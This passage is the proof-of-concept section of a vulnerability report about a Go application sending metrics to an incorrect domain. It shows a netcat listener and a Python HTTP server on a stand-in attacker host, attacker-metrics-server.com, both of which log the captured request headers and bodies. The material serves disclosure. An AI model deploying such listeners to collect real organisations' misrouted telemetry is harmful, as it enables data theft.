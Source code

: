 ## **10. Proof of Concept (PoC)**

This Proof of Concept (PoC) demonstrates how the "Potential Mis-information relay due to Incorrect Metric Server domain" vulnerability can be exploited. It involves setting up a listener on an attacker-controlled server and configuring a sample Go application to send its metrics to this incorrect domain.

1. Setup an Attacker-Controlled Listener:

On a server controlled by the attacker (e.g., with the domain attacker-metrics-server.com or an IP address), set up a simple HTTP listener that logs all incoming requests, including headers and body. This can be achieved using tools like netcat, a basic Python HTTP server, or a Node.js Express app.

*Example using `netcat` (for simple HTTP, not ideal for OTLP protobuf but shows basic connection):*

```bash

# On attacker-metrics-server.com, listening on port 8080
nc -l -p 8080 -v
```

*Example using a simple Python HTTP server to log requests:*

```Python
# File: attacker_listener.py
from http.server import HTTPServer, BaseHTTPRequestHandler
import logging

logging.basicConfig(level=logging.INFO, format='%(asctime)s - %(message)s')

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self): # OTLP HTTP typically uses POST
        content_length = int(self.headers.get('Content-Length', 0))
        post_data = self.rfile.read(content_length)
        logging.info(f"Received POST request to: {self.path}")
        logging.info(f"Headers:\n{self.headers}")
        logging.info(f"Body:\n{post_data.decode('utf-8', errors='ignore')}") # Attempt to decode as UTF-8
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"Request received")

    def do_GET(self): # For other types of metrics endpoints
        logging.info(f"Received GET request to: {self.path}")
        logging.info(f"Headers:\n{self.headers}")
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"Request received")

if __name__ == '__main__':
    server_address = ('0.0.0.0', 4318) # OTLP HTTP default port
    httpd = HTTPServer(server_address, RequestHandler)
    logging.info(f"Starting listener on {server_address}:{server_address[1]}...")
    httpd.serve_forever()
```
